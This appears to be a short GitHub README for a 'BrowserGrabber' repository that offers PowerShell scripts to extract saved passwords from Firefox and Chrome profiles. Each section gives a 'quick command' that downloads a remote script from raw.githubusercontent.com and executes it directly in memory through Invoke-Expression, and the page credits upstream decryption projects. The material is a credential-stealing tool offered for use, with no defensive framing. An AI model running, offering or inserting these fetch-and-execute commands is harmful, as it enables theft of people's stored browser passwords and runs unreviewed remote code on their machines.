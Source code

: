 # FirefoxCredentials
One file script to extract passwords from firefox profiles

Quick command: powershell -c "(Invoke-WebRequest https://raw.githubusercontent.com/Ethical-Kaizoku/BrowserGrabber/main/Get-FirefoxPasswords.ps1 -UseBasicParsing).Content | IEX"

Source: https://github.com/techchrism/firefox-password-decrypt/

Note: Does not work on Powershell 7 and after


# ChromeCredentials
One file script to extract passwords from Chrome

Quick command: (Invoke-WebRequest https://raw.githubusercontent.com/Ethical-Kaizoku/BrowserGrabber/main/Get-ChromePasswords.ps1 -UseBasicParsing).Content | IEX

Source: https://github.com/thisismyrobot/chrome-decrypt.ps1

